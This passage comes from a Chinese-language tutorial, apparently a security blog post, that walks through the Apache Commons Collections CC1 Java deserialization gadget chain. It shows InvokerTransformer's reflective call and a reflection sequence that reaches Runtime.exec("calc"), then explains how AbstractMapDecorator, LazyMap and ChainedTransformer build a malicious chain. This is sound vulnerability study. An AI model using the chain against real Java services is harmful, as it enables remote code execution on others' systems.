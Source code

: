 ```java
    }
}
InvokerTransformer{
    public Object transform(Object input) {
        ......
        Class cls = input.getClass();
        Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
        return method.invoke(input, this.iArgs);
        ......
    }
}
```

上边的调用链代码最终的调用过程非常类似于下边的过程：

```java
// 第一个构造参数调用链
Class<Runtime> runtimeClass = Runtime.class;
Class<? extends Class> runClass = runtimeClass.getClass();
// 第二个参数调用
Method getMethod = runClass.getMethod("getMethod", String.class, Class[].class);
Object getMethodInvoke = getMethod.invoke(runtimeClass, "getRuntime", null);
// 第三个参数调用
Class<?> invokeClass = getMethodInvoke.getClass();
Method invokeMethod = invokeClass.getMethod("invoke", Object.class, Object[].class);
Object invokeMethodInvoke = invokeMethod.invoke(getMethodInvoke, null, null);
// 第四个参数调用
Class<?> execClass = invokeMethodInvoke.getClass();
Method execMethod = execClass.getMethod("exec", String.class);
execMethod.invoke(invokeMethodInvoke, "calc");
```

现在调用链被找到了，但是其他使用了反序列化的地方肯定不会手动调用transformer方法啊，我们需要找一个能自动调用transformer的地方，比如CC1中提到了以下类：

### AbstractMapDecorator

`AbstractMapDecorator` 是 Apache Commons Collections 中的一个类，它实现了 `Map` 接口，并且提供了一个装饰器模式的实现，用来装饰一个已有的 `Map` 实例。`AbstractMapDecorator` 主要的作用是提供一个框架，允许你通过继承它来对 `Map` 的行为进行修改或增强。

在反序列化漏洞中，`AbstractMapDecorator` 是一个常见的类，用来构建复杂的 `Map` 装饰器，通常与其他类一起使用，配合 `LazyMap`、`ChainedTransformer` 等类，构建出恶意的链条。

`AbstractMapDecorator` 是一个抽象类，它实际上并不直接操作 `Map`，而是通过持有一个 `Map` 实例，并对该实例的方法进行委托（delegation）和扩展，来实现装饰器模式。

```java
public abstract class AbstractMapDecorator<K, V> implements Map<K, V> {
    protected final Map<K, V> decorated;

    protected AbstractMapDecorator(Map<K, V> map) {
        this.decorated = map;
    }

    // 接口方法实现，通过委托给装饰的 Map
    public V put(K key, V value) {
        return decorated.put(key, value);
    }

    public V get(Object key) {
        return decorated.get(key);
    }

    public Set<Map.Entry<K, V>> entrySet() {
        return decorated.entrySet();
    }

```